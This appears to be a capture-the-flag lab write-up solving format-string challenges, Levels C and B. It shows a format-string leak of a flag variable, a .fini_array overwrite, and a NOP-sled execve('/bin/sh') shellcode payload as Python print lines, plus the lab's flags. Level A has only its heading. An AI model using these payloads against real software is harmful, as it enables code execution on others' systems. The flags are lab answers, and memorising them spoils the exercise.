


## lab04

**Level C**
First I take a look to the source code, then make some conclusion:

+ The flag file is intentionally load into variable `real_pass`, if I input this string correctly, a shell will be spawned (it is not the real solution, obviously).
+ Statement at line 60 is exploitable since it directedly outputs a user specified string without formatting.

The approach is straight forward, to input some crafted format string to read variable `real_pass`.

At machine code level, we may infer the addresses of these variables:

|variable|offset|address|
|--|--|--|
|`username`|`esp+0x94`|`0xbffff624`|
|`real_pass`|`esp+0x76`|`0xbffff606`|
|`in_pass`|`esp+0x12`|`0xbffff5a2`|

The address of `in_pass` can be obtained from some probing format strings (the first string prints the content of `in_pass` and the next one shows its address):



Next step is to find the currently offset of `username` when the control flow is at line 60. I obtain it manually:


It is now at `%37$08x`. Then by the address of `real_pass`, I am able to obtain the content:


The flag is `bu7_1t_w4sn7_brUt3_f0rc34b1e!`.

---

**Level B**
First thing is to check the security configuration. It is shown that relro is disabled. Then the approach is dtor overwriting.



Follow the instruction of destructor list overwriting, the control flow can be exploited, with the following input:

```python
print '\xac\x98\x04\x08' + '%08x'*5 + '%n'
```

where `0x080498ac` is the address of `.fini_array`. To inject shellcode, I choose `argv` command line arguments. In GDB, the address of the first command line argument is `0xbffff84b`. Here is the complete format string for exploitation:

```python
# file: /tmp/w.py
print '\xac\x98\x04\x08CIRQ\xae\x98\x04\x08' + '%08x'*4 + '%63519x%hn' + '%51124x%hn'
```

Since the address vale outside GDB differs from which inside, an NOP sled is essential for shellcode. After several attemps, a working shellcode given as:

```python
# file: /tmp/k.py
print '\x90'*1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80' + '\x90'
```

Executing with them in some strange redirections:


The flag is `fg3ts_d0e5n7_m4k3_y0u_1nv1nc1bl3`.

---

**Level A**
